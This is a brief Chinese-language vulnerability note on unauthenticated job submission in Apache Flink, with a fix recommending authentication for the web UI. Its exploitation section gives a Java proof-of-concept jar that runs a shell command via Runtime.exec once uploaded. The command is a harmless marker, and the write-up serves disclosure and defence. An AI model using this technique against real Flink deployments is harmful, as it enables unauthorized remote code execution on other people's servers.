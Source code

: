 ### 一 漏洞名
flink未授权创建任务

### 二 漏洞描述
Flink支持上传jar包并且执行，所以这里可以通过上传jar包获取Webshell

### 三 漏洞利用
```angular2html
package com.test;

import java.io.IOException;

public class Main {

    public static void main(String[] args) throws IOException {
	// write your code here
        Runtime.getRuntime().exec(new String[]{"bash","-c","touch /tmp/ggg"});
    }
}
```
![img.png](img.png)


### 四 修复方式
针对flink ui进行授权访问，flink原生项目暂不支持授权功能，建议是用web容器的basic access功能配置认证。

> 参考链接: https://y4er.com/post/apache-flink-cve-2020-17518-17519-rce/#%E8%87%AA%E8%BA%AB%E5%8A%9F%E8%83%BDrce
